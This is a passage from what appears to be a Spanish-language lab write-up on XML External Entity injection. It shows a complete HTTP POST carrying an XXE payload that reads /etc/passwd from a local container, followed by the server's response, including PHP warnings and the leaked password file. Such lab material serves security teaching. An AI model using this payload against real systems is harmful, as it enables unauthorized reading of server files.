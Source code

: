```
POST /index.php HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i

<?xml version="1.0"?>
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<user>
    <name>&xxe;</name>
</user>
```

Ahora si enviamos la peticion, en la pagina veremos lo siguiente:

```
Datos recibidos por el servidor:
--------------------------------
<?xml version="1.0"?>
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<user>
    <name>&xxe;</name>
</user>

<br />
<b>Deprecated</b>:  Function libxml_disable_entity_loader() is deprecated in <b>/var/www/html/index.php</b> on line <b>16</b><br />
✅ XML cargado correctamente.
📜 Procesando usuarios del XML:
<br />
<b>Warning</b>:  Attempt to read property "nodeValue" on null in <b>/var/www/html/index.php</b> on line <b>30</b><br />
<br />
<b>Warning</b>:  Attempt to read property "nodeValue" on null in <b>/var/www/html/index.php</b> on line <b>32</b><br />
<br />
<b>Warning</b>:  Attempt to read property "nodeValue" on null in <b>/var/www/html/index.php</b> on line <b>33</b><br />
<br />
<b>Warning</b>:  Attempt to read property "nodeValue" on null in <b>/var/www/html/index.php</b> on line <b>34</b><br />
ID: 
Nombre: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```
